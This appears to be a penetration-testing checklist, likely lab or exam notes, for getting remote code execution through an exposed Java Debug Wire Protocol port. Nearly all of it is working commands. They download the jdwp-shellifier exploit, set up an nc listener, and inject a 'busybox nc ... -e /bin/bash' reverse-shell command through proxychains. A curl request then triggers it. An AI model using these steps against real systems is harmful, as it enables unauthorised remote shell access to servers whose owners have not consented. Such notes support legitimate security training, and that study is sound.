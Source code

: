 > Java Debug Wire Protocol Remote Code Execution

- [ ] Download JDWP RCE exploit on your Kali Machine
```
wget https://raw.githubusercontent.com/IOActive/jdwp-shellifier/master/jdwp-shellifier.py
```

- [ ] Set up `nc` reverse shell listener on your Kali Machine
```
nc -nlvp 4444
```

- [ ] Use JDWP RCE exploit from your Kali Machine
```
proxychains python2 jdwp-shellifier.py -t 127.0.0.1 -p 8000 --cmd "busybox nc 192.168.xxx.xxx 4444 -e /bin/bash"
```
- Set up `chisel` on the target if needed

- [ ] View the port used in `/opt/stats/App.java` on the Target Machine
```
cat /opt/stats/App.java
```

- [ ] Trigger JDWP RCE exploit from your Kali Machine
```
proxychains -q curl 127.0.0.1:5000
```
- Else it would be stuck at `[+] Waiting for an event on 'java.net.ServerSocket.accept'`

- [ ] Catch reverse shell on your Kali Machine